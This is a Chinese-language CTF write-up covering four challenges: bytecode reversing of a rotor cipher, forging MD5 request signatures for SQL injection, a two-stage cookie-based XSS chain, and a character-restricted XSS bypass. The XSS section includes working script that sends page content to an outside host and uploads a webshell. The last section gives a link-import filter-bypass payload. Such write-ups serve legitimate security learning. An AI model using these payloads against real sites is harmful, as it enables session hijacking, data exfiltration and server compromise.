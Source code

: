 ## py

利用`marshal.loads`我们人肉扣出encrypt字节码，并根据常量发现了pip里有rotor模块，对着字节码进行了如下脑洞：
```
\x99\x01\x00    load consts   key_a="!@#$%^&*"
\x68\x01\x00    store

\x99\x02\x00    load  consts  key_b="abcdefgh"
\x68\x02\x00    store

\x99\x03\x00    load  consts  key_c="<>{}:""
\x68\x03\x00    store

\x61\x01\x00    load_f key_a
\x99\x04\x00    load consts 4
\x46 *          key_a * 4

\x99\x05\x00    load consts |
\x27 +          key_a * 4 + "|"

\x61\x02\x00    load_f key_b
\x61\x01\x00    load_f key_a
\x27 +

\x61\x03\x00    load_f key_c
\x27 +          key_b + key_a + key_c

\x99\x06\x00    load consts 2
\x46 *          (key_b + key_a + key_c) * 2
\x27 +          key_a * 4 + "|" + (key_b + key_a + key_c) * 2

\x99\x05\x00    load consts |
\x27 +          key_a * 4 + "|" + (key_b + key_a + key_c) * 2 + "|"

\x61\x02\x00    load_f key_b
\x99\x06\x00    load consts 2
\x46 *          key_b * 2
\x27 +          key_a * 4 + "|" + (key_b + key_a + key_c) * 2 + "|" + key_b * 2

\x99\x07\x00    load consts "EOF"
\x27 +          key_a * 4 + "|" + (key_b + key_a + key_c) * 2 + "|" + key_b * 2 + "EOF"

\x68\x04\x00    store secret = key_a * 4 + "|" + (key_b + key_a + key_c) * 2 + "|" + key_b * 2 + "EOF"
\x9b\x00\x00    IMPORT rotor
\x60\x01\x00    PUSH rotor.rotor

\x61\x04\x00    load_f secret
\x83\x01\x00    CALL # rotor.rotor(secret)

\x68\x05\x00    store rot = rotor.rotor(secret)
\x61\x05\x00    load_f rot
\x60\x02\x00    PUSH rot.encrypt

\x61\x00\x00    load_f data
\x83\x01\x00    CALL # rot.encrypt(data)

\x53            return
```

其实`\x27`很容易就猜出来是字符串拼接`+`，但是`\x46`我们一开始猜测是SLICE+1, SLICE+2 (即string[x:]和string[:x])折腾了好久，后来才脑洞出来字符串操作还有一个`*`....
于是就出来了，把secret扔进去rotor模块在decrypt一下就好。

## KoG

发现`Module.main`会对参数为纯数字的时候进行签名后，传给api.php，但有其他字符时不予签名。
仔细观察`functionn.js`，可以发现经过c++符号修饰的函数名，可以扔到`c++filt`里查看：
```
~$ c++filt _ZN5HASH16updateEPKhj
HASH1::update(unsigned char const*, unsigned int)
```
可知有个HASH1的类，仔细寻找代码里隐藏的常数可以知道是md5。


```javascript
function __ZN5HASH16updateEPKhj($this,$input,$length) {
 $this = $this|0;
 $input = $input|0;
 $length = $length|0;
```
然后在上面的`__ZN5HASH16updateEPKhj`update函数入口下断点，每次停下的时候在console里把`HEAP`里的`$input`指针指向的位置打出来看看，就知道传入了哪些字符串。一开始程序会传入"Start_here_"作为提示，但后来发现这个字符串是不需要的。事实上，把其他传进来的字符串拼接后，发现`functionn.js`做的就是return md5("d727d11f6d284a0d%s This_is_salt%s" % (payload, timestamp))，然后我们就可以自己对payload签名了，在payload中进行sql注入即可。


脚本如下：
```py
# __ZN5HASH16updateEPKhj
payload = sys.argv[1]
print payload
hash = hashlib.md5("d727d11f6d284a0d%s This_is_salt1489820887"%payload).hexdigest()
print requests.get('http://202.120.7.213:11181/api.php', params={'id':payload, 'hash':hash, 'time':'1489820887'}).text
```

## Complicated XSS

输入`admin.government.vip:8000`会跳转到`admin.government.vip:8000/login`进行登录，
登录后在`admin.government.vip:8000/`处，发现Cookie中的username字段会直接打到HTML页面上，这里可以进行二次XSS。
所以在原始payload中，要设置cookie如`username=<script src='http://example.com/xss.js'></script>;domain=.government.vip;path=/`来进行2次XSS，在`admin.government.vip:8000`下XSS就没有域限制。


原始payload脚本（第一次XSS）如下：
```py
def solve(cap):
    print 'cap: %s' % cap
    for i in xrange(1000000000):
        if hashlib.md5(str(i)).hexdigest()[:len(cap)] == cap:
            return str(i)

s = requests.session()
resp = s.get('http://government.vip/').text
resp = resp[resp.index(" === '")+len(" === '"):]
resp = resp[:6]
task = solve(resp)
data =  {"task": task, 'payload': '''
<script>
function createCookie(name,value,days) {
    if (days) {
        var date = new Date();
        date.setTime(date.getTime() + (days * 24 * 60 * 60 *1000));
        var expires = "; expires=" + date.toGMTString();
    }
    else {
        var expires = "";
    }
    document.cookie = name + "=" + value + expires + ";domain=.government.vip;path=/";
}
function eraseCookie(name) {
    createCookie(name,"",-1);
}
eraseCookie("username");
// remember to ENCODE and REPLACE "BASE64_ENCODE_HERE(.)" in the payload below, or the end of script tag in the payload string makes trouble
document.cookie=atob(BASE64_ENCODE_HERE('''username=<script src='http://example.com/xss.js'></script>;domain=.government.vip;path=/'''));
document.write('<iframe src="http://admin.government.vip:8000/" id="i"></iframe>');
</script>
''', 'submit':'submit'}
print s.post('http://government.vip/run.php', data=data, headers={'Content-Type':'application/x-www-form-urlencoded'}).text
```


`http://example.com/xss.js`要做的事情如下：
1. 恢复cookie中的username为admin
2. 因为`admin.government.vip:8000/`中`delete XMLHttpRequest`，我们可以从`<iframe src='/login' id='iij'></iframe>`中的contentWindow中把XMLHttpRequest恢复出来。
3. 使用恢复后的XMLHttpRequest，用恢复后的Cookie: username=admin把`<iframe src='/' id='ii'></iframe>`的页面内容回传。


回传后，发现admin的`admin.government.vip:8000/`页面不是flag而是一个让你上传webshell的表单，那么接下来我们只需要把第三步改成：
3. 使用恢复后的XMLHttpRequest，用恢复后的Cookie: username=admin，往`/upload`POST一个webshell文件（其实什么内容都可以），把response回传。


`http://example.com/xss.js`如下：
```javascript
//'username=admin;domain=.government.vip;path=/'
document.cookie=atob('dXNlcm5hbWU9YWRtaW47ZG9tYWluPS5nb3Zlcm5tZW50LnZpcDtwYXRoPS8=');
document.write("<iframe src='/login' id='iij'></iframe><iframe src='/' id='ii'></iframe>");

function send2(x, p) {
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
    };
    xhr.open('POST', 'http://example.com/record.php?'+p+'='+btoa(x), true);
    xhr.send(null);
}

setTimeout(function(){
    var arr = ["Function","eval","alert","XMLHttpRequest","Proxy","Image","postMessage"];
    for(var i in arr) {
        i = arr[i];
        window[i] = document.getElementById('iij').contentWindow[i];
    }

    function send(url, data) {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", url, true);
        xhr.onreadystatechange = function () {
            if (xhr.readyState == 4)
                send2(xhr.responseText, 'resp');
        };
        var d = new FormData();
        d.append('file', new Blob([data]), 'agrnhte.php');
        xhr.send(d);
    }
    
    send("http://admin.government.vip:8000/upload", 'aaa');
}, 1000);

```


其实过程中遇到了玄学问题，比如它回传个400 BAD REQUEST什么就不谈了...


## simpleXSS

XSS payload只允许使用大小写字母数字加上`<^*~\-|_=+`这些特殊符号，那么大概只有两种方案：
1. 利用onload=A=B 可以作一句给A(通常是location)赋值B的简单js赋值操作
2. 利用某些奇怪的HTML标签特性


比赛时感觉方向1行不通，于是我走了方向2的思路。但方向1还真让某`LC↯BC`队(https://ctftime.org/writeup/5956)脑洞出来了个奇葩思路，只能佩服下RMB玩家...不对，应该是$12.95 Dollar玩家orz


我们（nao）想（dong）出来的payload有如下几个关键点：
1. Chrome会把域名中的`。`（全角句号）理解成"."
2. `<link rel=import`这种标签会把html import到当前页面里....N年前玩polymer的时候常用的一种标签...这里不能用script标签，因为script标签没有正常闭合时引用的js貌似不会被执行
3. `\\`会被Chrome理解成`//`，`\`也会理解成`/` （其实这里有个小插曲，我Win10上的Chrome会把`\\`理解成windows资源管理器里敲的那种`\\`也就是samba协议(或`file://`伪协议)...所以这种payload XSS Windows貌似是不行...?）， 因此`\\example。com\xssHtml`会变成`//example.com/xssHtml`


综上，payload:
```html
<link rel=import href=\\example。com\xssHtml other= 
```